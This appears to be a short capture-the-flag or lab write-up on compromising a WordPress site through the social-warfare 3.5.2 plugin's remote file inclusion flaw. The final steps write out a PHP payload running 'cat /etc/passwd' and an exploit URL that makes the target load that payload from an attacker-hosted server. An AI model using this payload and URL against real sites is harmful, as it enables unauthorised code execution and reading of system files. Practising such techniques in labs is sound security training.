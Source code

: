 #### -Ran Gobuster and found "/wordpress" directory and the following wordpress site webpage. Navigated the webpage and found the below login page: 

![](../Pasted%20Images/Pasted%20image%2020220505204221.png)

![](../Pasted%20Images/Pasted%20image%2020220505204305.png)

![](../Pasted%20Images/Pasted%20image%2020220505204358.png)

#### -Ran WPScan and found the following showing plugin "social-warfare version 3.5.2": 
![](../Pasted%20Images/Pasted%20image%2020220505204529.png)

#### -Googled "social-warfare 3.5.2 exploit" and found the following ling and navigate to the web page and followed the steps: 

![](../Pasted%20Images/Pasted%20image%2020220505204612.png)

![](../Pasted%20Images/Pasted%20image%2020220505204655.png)

#### -Made a payload.txt file with the script "<pre>system('cat /etc/passwd')</pre>" inside

#### -Setup a http server to host the payload txt file with "payload.txt"

#### -Input http://WEBSITE/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt instead of listed http://WEBSITE/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt as shown in the wpscan exploit showing previously as the previous weblogin page started with "/wordpress/" directory shown below and received the following webpage finding the user "takis":  

![](../Pasted%20Images/Pasted%20image%2020220505205028.png)

![](../Pasted%20Images/Pasted%20image%2020220505205100.png)


